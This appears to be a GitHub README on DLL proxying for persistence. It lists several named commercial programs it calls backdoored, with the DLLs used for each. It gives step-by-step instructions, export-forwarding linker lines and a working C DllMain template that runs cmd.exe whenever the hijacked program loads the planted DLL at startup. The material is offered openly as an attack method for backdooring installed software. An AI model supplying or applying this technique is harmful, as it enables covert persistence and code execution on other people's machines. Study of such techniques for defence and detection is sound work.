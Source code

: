 # DLL Proxying
DLL Proxying techniques, and more

## List of successfully backdoored programs (so far) :

Program Name | DLL
-------------| ----
Lightshot | DXGIODScreenshot.dll
Acrobat Reader | BIB.dll
Hamachi Service | LMIGuardianDll.dll
ManyCam | P7x32.dll
Citrix | ctxmui.dll

## DLL Proxying & Persistence concept :
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the "*Result*" column being set to "*SUCCESS*".

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Generate the pragma comment linkers for you to implement into your malicious DLL
It should look like :

    #pragma comment(linker,"/export:LegitDLLFunctionName=DLLFileName_orig.LegitDLLFunctionName,@ordinalNumber")

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:LegitDLLFunctionName=DLLFileName_orig.LegitDLLFunctionName,@ordinalNumber")
// .....
#include <stdio.h>
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <windows.h>
#include <string>
#include <atlstr.h>
#include <Windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.

### **Technique 2**

Technique 2 is based on the idea that the DLL doesn't exist where the program calls it. 

In Procmon, you can check this with the "*Result*" column being set to "*NAME NOT FOUND*".
Using Procmon, you should also check if the *Path* column matches with the location of the installation folder of the program

3. Look for the DLL inside the System32 folder
4. Generate the pragma comment linkers from that DLL
5. Add them to your malicious DLL and build it
6. Place the DLL inside within the folder specified by the "*Path*" column on Procmon (where the DLL wasn't found)
7. Be sure names match (case sensitive)
8. Start the program and see if it worked

## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.


### Troubleshoot
There are two main problems that can occur with this technique:
1. The program didn't start properly or crashed
2. The program started but nothing happened

For both case, it means that you picked the wrong DLL, and that you have to try with another one.
